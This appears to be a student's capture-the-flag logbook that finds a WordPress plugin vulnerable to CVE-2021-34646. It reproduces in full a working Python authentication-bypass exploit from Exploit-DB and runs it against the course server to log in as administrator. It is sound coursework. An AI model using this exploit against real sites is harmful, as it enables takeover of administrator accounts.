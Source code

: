 # Logbook 3

## Challenge 1

When we access the page http://ctf-fsi.fe.up.pt:5001/ , we come across a server that is running WordPress. If we navigate to the "Home > Services > WordPress Hosting" section and click on "Additional information", we can get details about some of its dependencies, including the WordPress version and installed plugins.

![Additionnal information](<Captura de ecrã 2023-10-08 123052.png>)

http://ctf-fsi.fe.up.pt:5001/product/wordpress-hosting/#comment-3 

After searching for CVEs related to the plugins and their respective versions mentioned above, we identified CVE-2021-34646.

![WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass](<Captura de ecrã 2023-10-08 155646.png>)

https://www.exploit-db.com/exploits/50299 

## Challenge 2

In the second challenge we start by downloading the exploit that we obtained through the link accessed previously to our computer.

```
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

We run the command 'python3 <filename.py> http://ctf-fsi.fe.up.pt:5001/ 1'.

![links will log you in](image.png)

We get three links one of which allows us to log in to the administrator account. Then we open this link http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php and opening the private message we obtain the flag, thus solving the challenge.

![Flag](image-1.png)